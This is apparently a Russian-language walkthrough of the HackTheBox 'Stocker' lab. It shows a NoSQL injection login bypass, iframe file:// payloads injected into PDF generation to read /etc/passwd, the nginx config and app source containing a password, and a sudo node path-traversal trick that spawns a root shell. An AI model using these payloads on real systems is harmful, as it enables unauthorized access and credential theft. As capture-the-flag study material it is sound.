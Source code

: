 # Stocker

:white_check_mark:  [**Json_auth_bypass**](#Json_auth_bypass)

:white_check_mark:  [**Skia_pdf_XSS**](#Skia_pdf_XSS)

:white_check_mark:  [**Node_to_js_file(privesc)**](#Node_to_js_file(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV stocker.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page

Главная страница **stocker.htb**:

![](../assets/Stocker/1.png)

Попробуем найти директории дааного сайта:

```
gobuster vhost -u http://stocker.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

```
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

![](../assets/Stocker/2.png)

Добавим поддомен в /etc/hosts.

<a name="Json_auth_bypass"></a>

## Json auth bypass

Перейдем по url и попадем на http://dev.stocker.htb/login.

![](../assets/Stocker/3.png)

Введем случайные данные, отправим запрос и перехватим его.

![](../assets/Stocker/4.png)

Изменим Content-Type на aplication/json и введем null в поля имени пользователя и пароля в формате json.

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![](../assets/Stocker/5.png)

<a name="Skia_pdf_XSS"></a>

## Skia pdf XSS

Обойдя панель логина, мы попадаем на страницу на которой расположены товары, которые мы можем добавить в корзину.

![](../assets/Stocker/6.png)

Добавим пару товаров в корзину.

![](../assets/Stocker/7.png)

Оформив заказ, мы можем обнаружить окно с ссылкой на pdf документ заказа.

![](../assets/Stocker/8.png)

![](../assets/Stocker/9.png)

Скачаем документ и проанализируем его с помощью exiftool.

```
exiftool document.pdf
```

![](../assets/Stocker/10.png)

Мы можем заметить использование графической библиотеки Skia при создании pdf документа.

Из данной [статьи](https://www.triskelelabs.com/blog/extracting-your-aws-access-keys-through-a-pdf-file) мы можем понять, что мы модем использовать уязвимость XSS для получения данных.

![](../assets/Stocker/11.png)

Снова перезватим запрос оформления заказа и попробуем открыть файл /etc/passwd.

```
<iframe src=\"file:///etc/passwd\"></iframe>
```

![](../assets/Stocker/12.png)

По итогу мы получили содержимое файла.

![](../assets/Stocker/13.png)

Окно слишком маленькое, чтобы мы могли узнать пользователей, для этого модифицируем полезную нагрузку.

```
<iframe src=file:///etc/passwd height=1000px width=800px</iframe>
```

![](../assets/Stocker/14.png)

Мы нашли пользователя angoose. Используя wappalyzer, мы можем обнаружить что сайт поднят на nginx. Попробуем открыть конфиг nginx.

```
<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>
```

![](../assets/Stocker/15.png)

Мы можем заметить что корневой директорией сайта является /var/www/dev.

На сайте так же используется NodeJS, попробуем использовать названия файлов app/main/index с добавлением расширения .js.

Перебрав данные имена файлов, у нас получится открыть файл index.js.

```
<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>
```

![](../assets/Stocker/16.png)

В файле мы можем найти пароль пользователя.

<a name="Node_to_js_file(privesc)"></a>

## Privesc

Попробуем подключиться по ssh с именем пользователя angoose.

![](../assets/Stocker/17.png)

Просмотрим имеющиеся права на импользоание команд, командой sudo -l.

![](../assets/Stocker/18.png)

У нас есть доступ от sudo к /usr/bin/node и файлам с расширением .js в директории /usr/local/scripts/

На сайте [GTFOBins](https://gtfobins.github.io/gtfobins/node/) мы можем найти способ эксплюатации уязвимости.

![](../assets/Stocker/19.png)

В домашней директории пользователя создадим файл с расширением .js и внесем в него данный код, немного его изменив.

```
nano rev.js

const rev = require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Используем следующую команду для эксплуатации уязвимости.

```
sudo node /usr/local/scripts/../../../../../../home/angoose/rev.js
```

![](../assets/Stocker/20.png)

Мы получили root.